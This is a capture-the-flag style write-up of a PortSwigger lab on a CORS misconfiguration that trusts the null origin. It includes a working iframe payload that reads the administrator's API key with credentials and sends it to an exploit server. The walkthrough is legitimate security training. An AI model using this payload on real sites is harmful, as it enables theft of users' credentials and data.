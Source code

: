 # Write-up: CORS vulnerability with trusted null origin

Lab-Link: <https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack>  
Difficulty: APPRENTICE  
  

## Lab description

![lab_description](img/1.png)

### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

### Note

Firefox and (Burp's) Chromium no longer fall victim to the CORS vulnerability, when viewing the exploit on the exploit server. It is still exploitable in the context of the lab, due to the setup on your backend, which still triggers the admin requesting the payload.

**Reference:** https://forum.portswigger.net/thread/cors-origin-null-lab-not-working-in-firefox-and-chromium-anymore-0ff5d553

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while logging.

![login_page](img/2.png)

We can see the request for url `/accountDetails` whose respone contains the API key.

![api_req](img/3.png)

Now, if we send the request with some malicious looking origin like `Origin: evil.com`, we still get successful response but without any header `Access-Control-Allow-Origin`. 

![cors_poc](img/4.png)

Lets now try with null Origin as `Origin: null`, now we get response with `Access-Control-Allow-Origin: null`. This confirms that the application has whitelisted null origin.

![cors_poc](img/5.png)

Now, we need to write a javascript code with `<iframe>` that will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aff000c0435b920801c35b400b50099.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        const obj = JSON.parse(this.responseText)
        location='https://exploit-0ab300dc04ceb9b0803434e5012500d2.exploit-server.net/log?username='+obj.username+'&APIkey='+obj.apikey;
    };
</script>"></iframe>
```

Now, Go to exploit server and paste the code and "Deliver the exploit to victim".

![exploit_code](img/6.png)

After checking the "Access log" from exploit server we can see the administrator's API Key

![api_key](img/7.png)

We can now submit this API key of administrator.

Hence, lab is solved.

![success](img/8.png)
